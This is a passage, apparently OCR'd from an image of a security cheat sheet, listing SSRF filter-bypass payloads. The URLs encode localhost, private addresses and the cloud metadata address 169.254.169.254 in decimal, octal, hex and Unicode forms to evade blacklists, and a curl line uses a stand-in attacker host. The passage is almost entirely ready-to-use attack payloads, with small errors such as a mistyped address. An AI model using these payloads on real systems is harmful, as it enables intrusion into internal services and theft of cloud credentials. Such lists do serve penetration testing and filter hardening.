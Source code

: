     -   `**https:/127.0.0.0/**`
-   With IPv6/IPv4 address embedding, useful when both IPv4 and IPv6 are blacklisted (but blacklisted badly)
    -   `**http://[0:0:0:0:0:ffff:127.0.0.1]/**`
-   With decimal IP location, really useful if dots are blacklisted
    -   `**http://0177.0.0.1/ --> (127.0.0.1)**`
    -   `**http://2130706433/ --> (127.0.0.1)**`
    -   `**http://3232235521/ --> (192.168.0.1)**`
    -   `**http://3232235777/ --> (192.168.1.1)**`
-   With malformed URLs, useful when port is blacklisted
    -   `**localhost:+11211aaa**`
    -   `**localhost:00011211aaaa**`
    -   `**localhost:11211**`
-   With shorthanding IP addresses by dropping zeros, useful when full IP address is whitelisted
    -   `**http://0/**`
    -   `**http://127.1/**`
    -   `**http://127.0.1/**`
-   With enclosed alphanumerics, useful when just plain ASCII characters are blacklisted but servers interpret enclosed alphanumerics as normal.
    -   `**http://①②⑦.⓪.⓪.①/**`
    -   `**http://⓵⓶⓻.⓪.⓪.⓵/**`
-   With bash variables (cURL only)
    -   `**curl -v "http://attacker$google.com"; $google = ""**`
-   Against weak parsers (these go to `http://127.2.2.2:80`)
    -   `**http://127.1.1.1:80\@127.2.2.2:80/**`
    -   `**http://127.1.1.1:80\@@127.2.2.2:80/**`
    -   `**http://127.1.1.1:80:\@@127.2.2.2:80/**`
    -   `**http://127.1.1.1:80#\@127.2.2.2:80/**`

#### **Bypass 169.254.169.254 address**

The most common bypass for AWS addresses is changing them to get past the blacklist of `169.245.169.254`.

-   `http://169.254.169.254.xip.io/`
-   `**http://1ynrnhl.xip.io**`
-   `**http://425.510.425.510**` – dotted decimal with overflow
-   `**http://2852039166**` – dotless decimal
-   `**http://7147006462**` – dotless decimal with overflow
-   `**http://0xA9.0xFE.0xA9.0xFE**` – dotted hexadecimal
-   `**http://0xA9FEA9FE**` – dotless hexadecimal
-   `**http://0x41414141A9FEA9FE**` – dotless hexadecimal with overflow
-   `**http://0251.0376.0251.0376**` – dotted octal
-   `**http://0251.00376.000251.0000376**` – dotted octal with padding

## References

1.  [http://en.wikipedia.org/wiki/URI_scheme](http://en.wikipedia.org/wiki/URI_scheme)
    
2.  [http://en.wikipedia.org/wiki/List_of_TCP_and_UDP_port_numbers](http://en.wikipedia.org/wiki/List_of_TCP_and_UDP_port_numbers)
    
3.  [http://msdn.microsoft.com/en-us/library/system.uri.scheme.aspx](http://msdn.microsoft.com/en-us/library/system.uri.scheme.aspx)
    